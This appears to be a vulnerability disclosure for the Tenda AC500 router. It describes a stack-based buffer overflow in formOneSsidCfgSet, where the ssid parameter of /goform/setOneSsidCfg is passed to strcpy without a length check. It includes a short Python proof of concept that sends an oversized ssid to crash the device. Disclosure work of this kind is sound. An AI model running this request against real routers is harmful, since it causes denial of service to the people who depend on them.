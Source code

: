 # Tenda Router AC500 Vulnerability
This vulnerability lies in the `/goform/setOneSsidCfg` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC500_V1.0.0.16](https://www.tenda.com.cn/download/detail-2219.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `formOneSsidCfgSet`.

In function `formOneSsidCfgSet` it reads user provided parameter `ssid` into src`, and this two variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/113_2/vlun.png)

So by requesting the page `/goform/setOneSsidCfg`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/setOneSsidCfg?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
